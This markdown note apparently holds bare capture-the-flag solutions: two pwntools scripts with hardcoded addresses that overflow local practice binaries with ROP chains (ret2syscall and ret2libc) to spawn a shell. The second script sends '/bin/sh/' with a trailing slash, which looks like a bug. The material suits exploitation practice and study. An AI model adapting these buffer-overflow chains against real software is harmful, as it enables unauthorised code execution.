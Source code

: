 # ret2syscall
```python
from pwn import *

p=process('./rop')
binsh=0x80be408
eax_addr=0x80bb196
ecx_addr=0x806eb91
edx_addr=0x806eb6a
int_addr=0x8049421

pay=flat(['a'*112,eax_addr,0xb,ecx_addr,0,binsh,edx_addr,0,int_addr])

p.sendline(pay)
p.interactive()
```

# ret2libc2
```python
from pwn import *
p=process('./ret2libc2')

buf2=0x804A080
popebx=0x804843d
sys_addr=0x8048490
get_addr=0x08048460

pay=flat(['a'*112,get_addr,popebx,buf2,sys_addr,'a'*4,buf2])

p.sendline(pay)
p.sendline('/bin/sh/')
p.interactive()
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTM5NzIzNTQ1OV19
-->